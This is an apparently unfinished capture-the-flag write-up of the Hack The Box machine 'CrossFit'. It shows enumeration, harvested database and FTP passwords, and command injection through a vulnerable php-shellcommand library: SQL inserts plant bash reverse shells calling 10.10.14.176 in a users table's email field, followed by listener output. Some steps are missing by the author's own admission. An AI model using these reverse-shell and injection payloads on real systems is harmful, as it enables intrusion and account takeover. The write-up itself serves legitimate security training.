enumerate a bit, create reverse shell as http-user

found `adduser-hank.yml` in `/ansible` directory with hash -&gt; `hank:powerpuffgirls`


```text
www-data@crossfit:/var/www/ftp/database/factories$ ls -la
total 12
drwxr-xr-x 2 root root 4096 May  1  2020 .
drwxr-xr-x 5 root root 4096 May  1  2020 ..
-rw-r--r-- 1 root root  876 May  1  2020 UserFactory.php
www-data@crossfit:/var/www/ftp/database/factories$ vi UserFactory.php
```

database

```php
<?php

/** @var \Illuminate\Database\Eloquent\Factory $factory */

use App\User;
use Faker\Generator as Faker;
use Illuminate\Support\Str;

/*
|--------------------------------------------------------------------------
| Model Factories
|--------------------------------------------------------------------------
|
| This directory should contain each of the model factory definitions for
| your application. Factories provide a convenient way to generate new
| model instances for testing / seeding your application's database.
|
*/

$factory->define(User::class, function (Faker $faker) {
    return [
        'name' => $faker->name,
        'email' => $faker->unique()->safeEmail,
        'email_verified_at' => now(),
        'password' => '$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi', // password
        'remember_token' => Str::random(10),
    ];
});
```

/var/www/ftp/database/factories password hash cracked to reveal ... 'password'

Note: something is missing here...getting initial connection back, finding and cracking the hash...

## Initial Foothold

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
isaac:x:1000:1000:,,,:/home/isaac:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:107:114:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:108:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
vsftpd:x:1002:1002::/var/vsftpd:/bin/false
Debian-exim:x:109:117::/var/spool/exim4:/usr/sbin/nologin
ftpadm:x:1003:1004::/srv/ftp:/usr/sbin/nologin
hank:x:1004:1006::/home/hank:/bin/bash
```

root, isaac, and hank can login

### User.txt

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ssh hank@10.10.10.208                                                                           1 ⨯
The authenticity of host '10.10.10.208 (10.10.10.208)' can't be established.
ECDSA key fingerprint is SHA256:tUOAuaaEof1kTFd4m9xiLiHk2k/pKSRnwhASRLb89Bo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.10.208' (ECDSA) to the list of known hosts.
hank@10.10.10.208's password: 
Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Mon Sep 21 05:46:24 2020 from 10.10.14.2
hank@crossfit:~$ ls -la
total 40
drwxr-xr-x 6 hank hank 4096 Sep 21 03:56 .
drwxr-xr-x 4 root root 4096 Sep 21 04:00 ..
lrwxrwxrwx 1 root root    9 May 12  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hank hank  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 hank hank 3526 Apr 18  2019 .bashrc
drwx------ 4 hank hank 4096 Sep 21 03:56 .cache
drwx------ 4 hank hank 4096 Sep  2 15:22 .gnupg
drwxr-xr-x 3 hank hank 4096 Sep 21 03:55 .local
drwx------ 4 hank hank 4096 Sep 21 03:56 .mozilla
lrwxrwxrwx 1 root root    9 May 13  2020 .mysql_history -> /dev/null
-rw-r--r-- 1 hank hank  807 Apr 18  2019 .profile
-r--r----- 1 root hank   33 Jan 15 00:50 user.txt
hank@crossfit:~$ cat user.txt 
9e326def2df97f2b7ac41362a8d8f446
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `hank`

```text
hank@crossfit:~$ id
uid=1004(hank) gid=1006(hank) groups=1006(hank),1005(admins)
```

The user `hank` was in the group `admins` which sounded interesting.

```text
hank@crossfit:~$ sudo -l
-bash: sudo: command not found
```

Well this was odd... It told me that it could not find the `sudo` command. I went and checked inside `/usr/sbin` and there was no binary for `sudo` installed.

```text
hank@crossfit:~$ ifconfig
-bash: ifconfig: command not found
hank@crossfit:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:60:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.208/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:60c9/64 scope global dynamic mngtmpaddr 
       valid_lft 85816sec preferred_lft 13816sec
    inet6 fe80::250:56ff:feb9:60c9/64 scope link 
       valid_lft forever preferred_lft forever
```

The program `ifconfig` was also missing

```text
hank@crossfit:~$ uname -a
Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
```

I decided to check and see if this was a strange distribution, or a BSD system, but `uname -a` told me that this was a Debian-based system. Curiouser and curiouser...

```text
hank@crossfit:/dev/shm$ ps aux > ps
hank@crossfit:/dev/shm$ ls
ps
hank@crossfit:/dev/shm$ cat ps
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
hank       722  0.0  0.5  39896 23024 ?        Ss   00:50   0:04 /usr/bin/python3 /opt/selenium/check_report.py
hank       812  0.0  0.1 346280  4740 ?        Sl   00:50   0:00 /opt/selenium/geckodriver --port 36929
hank       981  0.0  5.6 2701532 229536 ?      Sl   00:50   0:11 firefox-esr -marionette -headless -foreground -no-remote -profile /tmp/rust_mozprofileJXUpIz
hank      1068  0.0  2.1 2381776 85464 ?       Sl   00:50   0:06 /usr/lib/firefox-esr/firefox-esr -contentproc -childID 1 -isForBrowser -prefsLen 1 -prefMapSize 178236 -parentBuildID 20200429190206 -greomni /usr/lib/firefox-esr/omni.ja -appomni /usr/lib/firefox-esr/browser/omni.ja -appdir /usr/lib/firefox-esr/browser 981 true tab
hank      1091  0.0  2.3 2385708 96032 ?       Sl   00:50   0:01 /usr/lib/firefox-esr/firefox-esr -contentproc -childID 2 -isForBrowser -prefsLen 1 -prefMapSize 178236 -parentBuildID 20200429190206 -greomni /usr/lib/firefox-esr/omni.ja -appomni /usr/lib/firefox-esr/browser/omni.ja -appdir /usr/lib/firefox-esr/browser 981 true tab
hank      1135  0.0  1.5 2366460 61348 ?       Sl   00:50   0:00 /usr/lib/firefox-esr/firefox-esr -contentproc -childID 3 -isForBrowser -prefsLen 8358 -prefMapSize 178236 -parentBuildID 20200429190206 -greomni /usr/lib/firefox-esr/omni.ja -appomni /usr/lib/firefox-esr/browser/omni.ja -appdir /usr/lib/firefox-esr/browser 981 true tab
hank      8471  0.0  0.2  21160  9036 ?        Ss   10:57   0:00 /lib/systemd/systemd --user
hank      8488  0.0  0.1   8504  5316 pts/0    Ss   10:57   0:00 -bash
hank      8638  0.0  0.0  10632  3112 pts/0    R+   11:07   0:00 ps aux
```

I checked for running processes and noticed a few things were running from the `/opt/selenium` folder. I wasn't sure what that was so I looked it up. I also noticed that I was unable to see any processes from other users.

[https://www.selenium.dev/](https://www.selenium.dev/)

> Selenium automates browsers. That's it!

```text
hank@crossfit:/var$ cd www/
hank@crossfit:/var/www$ ls
development-test  ftp  gym-club  html
hank@crossfit:/var/www$ ls -la
total 24
drwxr-xr-x  6 root     root   4096 May 28  2020 .
drwxr-xr-x 13 root     root   4096 May 11  2020 ..
drwxrwxr-x  2 www-data vsftpd 4096 Sep 21 05:45 development-test
drwxr-xr-x 13 root     root   4096 May  7  2020 ftp
drwxr-xr-x  9 root     root   4096 May 12  2020 gym-club
drwxr-xr-x  2 root     root   4096 May  1  2020 html
```

While checking for other folders in the `/var/www` directory I noticed a few other than the standard `html`

```php
<?php
$dbhost = "localhost";
$dbuser = "crossfit";
$dbpass = "oeLoo~y2baeni";
$db = "crossfit";
$conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
?>
```

In the `/var/www/gym-club/` directory there was a file `db.php`. The password I found here unfortunately did not work to switch users to `isaac` or `root`.

```sql
hank@crossfit:/var/www/gym-club$ mysql -u crossfit -p -D crossfit
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9552
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [crossfit]> show tables
    -> ;
+--------------------+
| Tables_in_crossfit |
+--------------------+
| messages           |
| roles              |
| security_report    |
| trainers           |
| users              |
+--------------------+
5 rows in set (0.000 sec)

MariaDB [crossfit]> Select * from users
    -> ;
Empty set (0.000 sec)

MariaDB [crossfit]> select * from trainers;
+----+------------+-----------+---------------+------+
| id | first_name | last_name | pic           | role |
+----+------------+-----------+---------------+------+
|  1 | Becky      | Taylor    | trainer-1.jpg |    1 |
|  2 | Noah       | Leonard   | trainer-2.jpg |    2 |
|  3 | Evelyn     | Fields    | trainer-3.jpg |    1 |
|  4 | Leroy      | Guzman    | trainer-4.jpg |    3 |
+----+------------+-----------+---------------+------+
4 rows in set (0.000 sec)

MariaDB [crossfit]> show * from security_report;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '* from security_report' at line 1
MariaDB [crossfit]> show * from roles;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '* from roles' at line 1
MariaDB [crossfit]> select * from security_report;
Empty set (0.000 sec)

MariaDB [crossfit]> select * from roles;
+----+---------+
| id | name    |
+----+---------+
|  1 | Gymer   |
|  2 | Trainer |
|  3 | Manager |
+----+---------+
3 rows in set (0.000 sec)

MariaDB [crossfit]> select * from message
message           messages.email    messages.message  
messages          messages.id       messages.name     
MariaDB [crossfit]> select * from messages;
Empty set (0.001 sec)

MariaDB [crossfit]> select email,id,name,message from messages;
Empty set (0.000 sec)

MariaDB [crossfit]> show database;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1
MariaDB [crossfit]> show databases;
+--------------------+
| Database           |
+--------------------+
| crossfit           |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [crossfit]> use information_schema ;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [information_schema]> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
---snipped---
```

I used the credentials to log into the database, but there was no useful information there. It only held information that was displayed on the website

```php
<?php
  if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
  {
    echo "Your are not allowed to access this page.";
    return;
  }
?>
<!DOCTYPE html>
<html>
<head>
  <title>Security Report</title>
  <style>
    table, th, td {
      border: 1px solid black;
    }
  </style>
</head>
<body>
<h4>Logged XSS attempts</h4>
<table>
  <thead>
    <tr>
      <td>Timestamp</td>
      <td>User Agent</td>
      <td>IP Address</td>
    </tr>
  </thead>
<tbody>
<?php
$host = "localhost";
$user = "crossfit";
$pass = "oeLoo~y2baeni";
$db = "crossfit";
$conn = new mysqli($host, $user, $pass, $db);
if($conn)
{
    $res = $conn->query('SELECT * FROM security_report LIMIT 1');
    while($row = $res->fetch_array(MYSQLI_ASSOC))
    {
        echo "<tr>";
        echo "<td>" . $row['timestamp'] . "</td>";
        echo "<td>" . $row['ua'] . "</td>";
        echo "<td>" . long2ip($row['ip']) . "</td>";
        echo "</tr>";
        $conn->query('DELETE FROM security_report WHERE id='.$row['id']);
    }
}
?>
</tbody>
</body>
</html>
```

In the security\_threat folder there was a reports.php that held the code for reporting the detected xss events

```text
hank@crossfit:/home/isaac/send_updates$ find / -group admins 2>/dev/null
/home/isaac/send_updates
/home/isaac/send_updates/composer.lock
/home/isaac/send_updates/send_updates.php
/home/isaac/send_updates/composer.json
/etc/pam.d/chfn
/etc/pam.d/newusers
/etc/pam.d/vmtoolsd
/etc/pam.d/common-auth
/etc/pam.d/login
/etc/pam.d/systemd-user
/etc/pam.d/runuser-l
/etc/pam.d/common-account
/etc/pam.d/vsftpd.orig
/etc/pam.d/su
/etc/pam.d/vsftpd
/etc/pam.d/su-l
/etc/pam.d/chpasswd
/etc/pam.d/common-password
/etc/pam.d/common-session-noninteractive
/etc/pam.d/sshd
/etc/pam.d/common-session
/etc/pam.d/other
/etc/pam.d/chsh
/etc/pam.d/passwd
/etc/pam.d/cron
/etc/pam.d/runuser
```

I searched for files that `hank` could access as a member of the `admins` group, and found a bunch of them in the /etc/pam.d folder

```bash
auth sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3
account sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3

# Standard behaviour for ftpd(8).
auth    required        pam_listfile.so item=user sense=deny file=/etc/ftpusers onerr=succeed

# Note: vsftpd handles anonymous logins on its own. Do not enable pam_ftp.so.

# Standard pam includes
@include common-account
@include common-session
@include common-auth
auth    required        pam_shells.so
```

In /etc/pam.d the file vsftpd contained the password for `ftpadm`

```bash
# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the ChallengeResponseAuthentication and
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication via ChallengeResponseAuthentication may bypass
# the setting of "PermitRootLogin without-password".
# If you just want the PAM account and session checks to run without
# PAM authentication, then enable this but set PasswordAuthentication
# and ChallengeResponseAuthentication to 'no'.
UsePAM yes

#AllowAgentForwarding yes
#AllowTcpForwarding yes
#GatewayPorts no
X11Forwarding yes
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
PrintMotd no
#PrintLastLog yes
#TCPKeepAlive yes
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /var/run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem       sftp    /usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
DenyUsers ftpadm
```

Unfortunately the ssh configuration was set to explicitely deny `ftpadm` from logging in through ssh

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ftp 10.10.10.208
Connected to 10.10.10.208.
220 Cross Fit Ltd. FTP Server
Name (10.10.10.208:zweilos): ftpadm
530 Non-anonymous sessions must use encryption.
Login failed.
421 Service not available, remote server has closed connection
```

I tried to login to ftp using these credentials, but got an error stating that I needed to use encryption for non-anonymous sessions. I can't use SFTP since SSH is denied for this user, so I must need to use FTPS

[https://superuser.com/questions/623236/simple-command-to-connect-to-ftps-server-on-linux-command-line](https://superuser.com/questions/623236/simple-command-to-connect-to-ftps-server-on-linux-command-line)

This post on stack overflow shows how to connect using `lftp`

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ lftp -u ftpadm 10.10.10.208
Password: 
lftp ftpadm@10.10.10.208:~> ls                   
ls: Fatal error: Certificate verification: Not trusted (25:EC:D2:FE:6C:9D:77:04:EC:7D:D7:92:87:67:4B:C3:8D:0E:CB:CE)
lftp ftpadm@10.10.10.208:~> 
exit
```

[https://serverfault.com/questions/411970/how-to-avoid-lftp-certificate-verification-error](https://serverfault.com/questions/411970/how-to-avoid-lftp-certificate-verification-error)

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ lftp -u ftpadm 10.10.10.208 -e "set ftp:ssl-allow no" 
Password: 
lftp ftpadm@10.10.10.208:~> ls                   
ls: Login failed: 530 Non-anonymous sessions must use encryption.
lftp ftpadm@10.10.10.208:~> 
exit
```

So that parameter disabled encryption completely...

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ lftp -u ftpadm 10.10.10.208 -e "set ssl:verify-certificate no"                                  1 ⨯
Password: 
lftp ftpadm@10.10.10.208:~> ls                   
drwxrwx---    2 1003     116          4096 Sep 21 10:19 messages
```

Using the parameter `set ssl:verify-certificate no` got rid of the warning and allowed me to log in. There was only one folder `messages`, which I had read-write access to, but it was empty. Once again I uploaded a reverse shell and executed it, but I wasnt sure where the folder was

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

MAILTO=""
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   isaac   /usr/bin/php /home/isaac/send_updates/send_updates.php
#
```

In /etc/crontab there was a cron running every minute as the user `isaac`. This cron ran the script `send_updates.php` from /home/issac/

```php
<?php
/***************************************************
 * Send email updates to users in the mailing list *
 ***************************************************/
require("vendor/autoload.php");
require("includes/functions.php");
require("includes/db.php");
require("includes/config.php");
use mikehaertl\shellcommand\Command;

if($conn)
{
    $fs_iterator = new FilesystemIterator($msg_dir);

    foreach ($fs_iterator as $file_info)
    {
        if($file_info->isFile())
        {
            $full_path = $file_info->getPathname();
            $res = $conn->query('SELECT email FROM users');
            while($row = $res->fetch_array(MYSQLI_ASSOC))
            {
                $command = new Command('/usr/bin/mail');
                $command->addArg('-s', 'CrossFit Club Newsletter', $escape=true);
                $command->addArg($row['email'], $escape=true);

                $msg = file_get_contents($full_path);
                $command->setStdIn('test');
                $command->execute();
            }
        }
        unlink($full_path);
    }
}

cleanup();
?>
```

In the folder /home/isaac/send\_updates there was a php file. Reading through the code, it seemed as if it was created to email the Crossfit Club Newsletter automatically to all users in the database. The `mail` command was being run by the `mikehaertl\shellcommand\Command` library, which after a short search I found on github.

[https://github.com/mikehaertl/php-shellcommand](https://github.com/mikehaertl/php-shellcommand)

> php-shellcommand provides a simple object oriented interface to execute shell commands.

```javascript
{
    "require": {
        "mikehaertl/php-shellcommand": "1.6.0"
    }
}
```

The file `composer.json` showed the version of this library was 1.6.0

[https://snyk.io/vuln/SNYK-PHP-MIKEHAERTLPHPSHELLCOMMAND-538426](https://snyk.io/vuln/SNYK-PHP-MIKEHAERTLPHPSHELLCOMMAND-538426)

Since this executes arbitrary commands, and there is no kind of filtering being done on the `email` parameter, this could be used to inject other commands.

```text
hank@crossfit:/home/isaac/send_updates$ mail --help
Usage: mail [OPTION...] [address...]
  or:  mail [OPTION...] [OPTION...] [file]
  or:  mail [OPTION...] --file [OPTION...] [file]
  or:  mail [OPTION...] --file=file [OPTION...]
GNU mail -- process mail messages.
If -f or --file is given, mail operates on the mailbox named by the first
argument, or the user's mbox, if no argument given.

  -A, --attach=FILE          attach FILE
  -a, --append=HEADER: VALUE append given header to the message being sent
      --[no-]alternative     force multipart/alternative content type
      --attach-fd=FD         attach from file descriptor FD
      --content-filename=NAME
                             set the Content-Disposition filename parameter for
                             the next --attach option
      --content-name=NAME    set the Content-Type name parameter for the next
                             --attach option
      --content-type=TYPE    set content type for subsequent --attach options
  -E, --exec=COMMAND         execute COMMAND
  -e, --exist                return true if mail exists
      --encoding=NAME        set encoding for subsequent --attach options
  -F, --byname               save messages according to sender
  -H, --headers              write a header summary and exit
  -i, --ignore               ignore interrupts
  -M, --[no-]mime            compose MIME messages
  -N, --nosum                do not display initial header summary
  -n, --norc                 do not read the system mailrc file
  -p, --print, --read        print all mail to standard output
  -q, --quit                 cause interrupts to terminate program
  -r, --return-address=ADDRESS
                             use address as the return address when sending
                             mail
  -s, --subject=SUBJ         send a message with the given SUBJECT
      --[no-]skip-empty-attachments
                             skip attachments with empty body
  -t, --to                   read recipients from the message header
  -u, --user=USER            operate on USER's mailbox

 Global debugging settings
      --debug-level=LEVEL    set Mailutils debugging level
      --[no-]debug-line-info show source info with debugging messages

 Configuration handling
      --config-file=FILE     load this configuration file; implies --no-config
      --config-lint          check configuration file syntax and exit
      --config-verbose       verbosely log parsing of the configuration files
      --no-config            do not load site and user configuration files
      --no-site-config       do not load site-wide configuration file
      --no-user-config       do not load user configuration file
      --set=PARAM=VALUE      set configuration parameter

 Informational options
      --config-help          show configuration file summary
      --show-config-options  show compilation options

  -?, --help                 give this help list
      --usage                give a short usage message
  -V, --version              print program version

Mandatory or optional arguments to long options are also mandatory or optional
for any corresponding short options.

Report bugs to <bug-mailutils@gnu.org>.
GNU Mailutils home page: <http://mailutils.org>
General help using GNU software: <http://www.gnu.org/gethelp/>
```

Looking at the `mail` program's help, I noticed that there was a flag `-E` that allowed to execution of commands. Since I already had the credentials to the database, it seemed likely that I could create an entry in the user's table that contained code I wanted to execute as `isaac` in the email field. `isaac` did not have a .ssh folder to insert my public key to, so I needed to craft a reverse shell

```text
hank@crossfit:/home/isaac$ mysql -u crossfit -p -D crossfit
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11007
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [crossfit]> INSERT INTO users (username, email) VALUES (zweilos, -E $(bash -i >& /dev/tcp/10.10.15.98/8099))
    -> ;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '$(bash -i >& /dev/tcp/10.10.15.98/8099))' at line 1
MariaDB [crossfit]> INSERT INTO users (username, email) VALUES ("zweilos", "-E $(bash -i >& /dev/tcp/10.10.15.98/8099)");
ERROR 1054 (42S22): Unknown column 'username' in 'field list'
MariaDB [crossfit]> select * from users
users        users.email  users.id     
MariaDB [crossfit]> select * from users
users        users.email  users.id     
MariaDB [crossfit]> INSERT INTO users (id, email) VALUES ("1", "-E $(bash -i >& /dev/tcp/10.10.15.98/8099)");
Query OK, 1 row affected (0.003 sec)

MariaDB [crossfit]> select * from users;
+----+------------------------------------------------------------+
| id | email                                                      |
+----+------------------------------------------------------------+
|  1 | -E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8099 0>&1') |
+----+------------------------------------------------------------+
1 row in set (0.000 sec)
```

ghik

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.208] 53362
bash: cannot set terminal process group (1855): Inappropriate ioctl for device
bash: no job control in this shell
isaac@crossfit:~$ test
isaac@crossfit:~$ exit
```

I got a connection back from my injected code, however it also immediately ran two commands \( I did not type these: `test` and `exit`\) which caused it to disconnect...I could not get the same injected command to work later. I have not idea what is broken here

```text
MariaDB [crossfit]> INSERT INTO users (id,email) VALUES (8081,"-E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8081 0>&1')");
Query OK, 1 row affected (0.001 sec)

MariaDB [crossfit]> select * from users;
+------+------------------------------------------------------------+
| id   | email                                                      |
+------+------------------------------------------------------------+
| 8081 | -E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8081 0>&1') |
+------+------------------------------------------------------------+
1 row in set (0.000 sec)
```

This worked

```sql
MariaDB [crossfit]> INSERT INTO users (email) VALUES ("test & bash -c 'bash -i >& /dev/tcp/10.10.14.176/10001 0>&1'");
Query OK, 1 row affected (0.001 sec)
```

This also worked

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ lftp -u ftpadm 10.10.10.208 -e "set ssl:verify-certificate no" 
Password: 
lftp ftpadm@10.10.10.208:~> put ~/rev-php.php    
put: /home/zweilos/rev-php.php: Access failed: 553 Could not create file. (rev-php.php)
lftp ftpadm@10.10.10.208:/> cd messages/
lftp ftpadm@10.10.10.208:/messages> put ~/rev-php.php 
73 bytes transferred
```

After a lot of testing, and trying random things I found out that I needed to trigger the message by uploading a file into the `messages` folder after logging in with `ftpadm`.

#### enumeration as `isaac`

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8081                                                                                   1 ⨯
listening on [any] 8081 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.208] 54756
bash: cannot set terminal process group (2913): Inappropriate ioctl for device
bash: no job control in this shell
isaac@crossfit:~$
```

Finally got a shell back after triggering it by uploading a file to the ftp server

```text
isaac@crossfit:~$ id
id
uid=1000(isaac) gid=1000(isaac) groups=1000(isaac),50(staff),116(ftp),1005(admins)
```

there was a new group `staff` that had access to a bunch of files related to selenium

```text
isaac@crossfit:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
isaac@crossfit:~$ ^Z  
[1]+  Stopped                 nc -lvnp 9001
zweilos@kali:~/htb/laboratory$ stty size
23 103
zweilos@kali:~/htb/laboratory$ stty raw -echo
nc -lvnp 9001aa:~/htb/laboratory$ 

isaac@crossfit:~$ stty rows 23 columns 103
isaac@crossfit:~$ export TERM=xterm-256color
```

upgraded to full tty shell

```text
isaac@crossfit:~/send_updates$ cd includes
cd includes
isaac@crossfit:~/send_updates/includes$ ls -la
ls -la
total 20
drwxr-x--- 2 isaac isaac  4096 May  7  2020 .
drwxr-x--- 4 isaac admins 4096 May  9  2020 ..
-rw-r----- 1 isaac isaac    41 May  7  2020 config.php
-rw-r----- 1 isaac isaac   151 May  5  2020 db.php
-rw-r----- 1 isaac isaac   520 May  5  2020 functions.php
```

I did some investigating to figure out why I had to upload a file to get the code to execute

```php
<?php
$msg_dir = "/srv/ftp/messages";
?>
```

In the `includes` folder there was a file `config.php` that pointed to `/srv/ftp/messages`. db.php was the same as before

```php
<?php
function cleanup()
{
    require("db.php");
    if($conn)
    {
        $res = $conn->query('SELECT email FROM users');
        while($row = $res->fetch_array(MYSQLI_ASSOC))
        {
            $email = $row['email'];
            if(!filter_var($email, FILTER_VALIDATE_EMAIL))
            {
                $sql = "DELETE FROM users WHERE email=?";
                $stmt = $conn->prepare($sql);
                $stmt->bind_param("s", $email);
                $stmt->execute();
            }
        }
    }
}
?>
```

functions.php explained why my query would be deleted each time

```text
isaac@crossfit:~/send_updates/vendor/composer$ ps aux
ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
isaac     2913  0.0  0.0   2388   692 ?        Ss   16:55   0:00 /bin/sh -c /usr/bin/php /home/isaac/send_updates/send_updates.php
isaac     2914  0.3  0.5  89096 22692 ?        S    16:55   0:10 /usr/bin/php /home/isaac/send_updates/send_updates.php
isaac     2922  0.0  0.0   2388   760 ?        S    16:55   0:00 sh -c /usr/bin/mail -s 'CrossFit Club Newsletter' -E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8081 0>&1') '1'
isaac     2924  0.0  0.0   6644  3136 ?        S    16:55   0:00 bash -c bash -i >& /dev/tcp/10.10.14.176/8081 0>&1
